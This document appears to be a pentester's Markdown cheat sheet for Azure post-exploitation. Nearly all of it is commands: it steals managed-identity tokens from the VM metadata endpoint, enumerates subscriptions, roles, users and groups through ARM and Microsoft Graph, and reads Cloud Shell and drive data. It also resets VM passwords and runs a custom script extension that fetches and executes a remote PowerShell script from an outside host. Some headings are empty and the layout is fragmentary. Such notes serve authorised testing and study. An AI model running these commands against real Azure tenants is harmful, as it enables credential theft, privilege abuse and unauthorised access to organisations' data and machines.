 # Exploitation Flow 
### Login tricks
```
az login --use-device --allow-no-subscriptions
```

### Buffer
```
### Try this
$pscredential = Get-Credential
Connect-AzureRmAccount -ServicePrincipal -ApplicationId "http://my-app" -Credential $pscredential -TenantId $tenantid
AzCopy /Source:https://myaccount.blob.core.windows.net/mycontainer /Dest:C:\myfolder /SourceKey:key /S
Explore :
- https://cloud.hacktricks.xyz/pentesting-cloud/azure-security
- https://microsoft.github.io/Azure-Threat-Research-Matrix/
```

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

### 4. Enum
4.1 Get list of subscriptions
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01
```

4.2 List of resource groups and resources
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 
```

### 5. ARM resources
List resources user has atlease read privilege
```az role assignment list --scope <resource-id> --include-inherited```
```curl -X GET -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" "https://management.azure.com/<resource-id>/providers/Microsoft.Authorization/roleAssignments?api-version=2020-04-01-preview"```

Access cloud shell drive data
```
curl -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" -X GET "https://portal.azure.com/api/v1/?environment=clouddrive"
```

Get deployment history ```az deployment group list --resource-group rgname```

#### VM commands

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

VM command for running a ps script
```
Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

### 6. MS Graph access
Get access token
```az account get-access-token --resource https://graph.microsoft.com```

Get user info
```curl -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/me```

Get list of users
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/users ```

Get list of Groups
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/groups```

Get groups
```
az role assignment list --scope /subscriptions/2213e8b1-dbc7-4d54-8aff-b5e315df5e5b/resourceGroups/1-6417d8f7-playground-sandbox/ --include-inherited
```

List of groups I am a member of 
```
curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/memberOf/$/microsoft.graph.group?$filter=groupTypes/any(c:c%20eq%20'unified')"
```

curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/drive/root/children"


### Misc useful commands


### Lab setup 
```az deployment group create --resource-group sec --template-file ./file.json```
